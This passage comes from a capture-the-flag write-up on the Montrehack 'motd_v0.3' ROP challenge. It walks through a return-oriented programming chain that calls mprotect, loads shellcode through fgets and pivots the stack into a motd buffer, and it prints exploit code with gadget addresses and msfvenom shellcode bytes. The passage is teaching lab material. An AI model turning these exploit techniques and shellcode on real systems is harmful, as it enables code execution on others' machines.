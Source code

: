 While debugging, it looks like `fgets` is clobbering `rdi`, but thankfully it
returns the buffer into `rax` so it's possible to just move it to `rdi` again
before the `mprotect` call. The other important thing to notice is that there is
no gadget to pop into `rdx` directly, so instead a `mov` is used, hence `rsi`
being set twice.

----

```python
CALL_SHELLCODE = [
    RAX, # xchg rax, rdi ; ret
    JMP,
]
```

All that's left is to move the address of the buffer from `rax` into `rdi`, one
last time and use the `jmp rax` gadget to finally transfer execution to the
shellcode buffer.

## Phase 4 - Pivoting to Freedom (and Flags)

If you've read through the write-up for the second challenge, you might remember
that we only controlled one out of every two QWORDs through the rating function.
Our gadget chain is much longer than that though... so we need a way to fit it
somehwere in memory and pivot to it. Luckily, it is possible to write the chain
into a motd buffer and then write a pivot into the return address.

The pivot gadget that I selected also pops `r13-r15`, so this requires a bit of
padding in the chain. The final exploit code looks like this:

```python
#!/usr/bin/env python
from pwn import *
from struct import pack
def q(addr): return pack('<Q', addr)

TARGET = '../bin/motd_v0.3' # Binary path (local)

# msfvenom -p linux/x64/exec CMD='cat ~/flag.txt' -f c -b "\x0a\x0d"
SHELLCODE = (
"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53"
"\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8\x0f\x00"
"\x00\x00\x63\x61\x74\x20\x7e\x2f\x66\x6c\x61\x67\x2e\x74\x78"
"\x74\x00\x56\x57\x48\x89\xe6\x0f\x05"
)

# ROPGadget.py --binary motd_v0.3 | less
RSP = 0x000000000040181d #: pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
RBP = 0x00000000004011cd #: pop rbp ; ret
RDI = 0x0000000000401823 #: pop rdi ; ret
RSI = 0x0000000000401821 #: pop rsi ; pop r15 ; ret
RAX = 0x00000000004011ee #: xchg rax, rdi ; ret
FD  = 0x00000000004011f5 #: mov rdx, qword ptr [rbp - 4] ; ret # To get *stdin@GOT
RDX = 0x00000000004011f1 #: mov rdx, rsi ; ret
JMP = 0x000000000040115e #: jmp rax # to jump into shellcode
PAD = 0x4141414141414141 #: padding # to feed hungry pops

# Taken from the PLT since it's static with partial relro.
# r2 -qc 'pd @ section..plt' bin/motd_v0.3 | grep -E 'reloc.(memalign|mprotect|fgets)'
FGETS    = 0x00401070 # sym.imp.fgets
MEMALIGN = 0x00401090 # sym.imp.memalign
MPROTECT = 0x004010d0 # sym.imp.mprotect
STDIN    = 0x004040a0 # obj.stdin__GLIBC_2.2.5
BUFLEN   = 0x100
ALIGN    = 0x1000

```

[1]: https://segfault.me/2019/03/03/montrehack-writeups-motd-v0-1/ "Write-up for motd_v0.1"
[2]: https://segfault.me/2019/04/20/montrehack-writeups-motd-v0-2/ "Write-up for motd_v0.2"
[m]: https://montrehack.ca "Montrehack Official Website"
[src]: https://github.com/alxbl/montrehack-rop101 "ROP 101: Sources & Solutions"
[man]: http://man7.org/linux/man-pages/man2/mprotect.2.html "Manual Pages for mprotect"
[presentation]: https://www.twitch.tv/videos/384854978 "Presentation of Slides"
[solutions]: https://www.twitch.tv/videos/384854977 "Presentation of Solutions"
[slides]: https://github.com/alxbl/montrehack-rop101/blob/master/slides_final.pdf "Slides PDF"
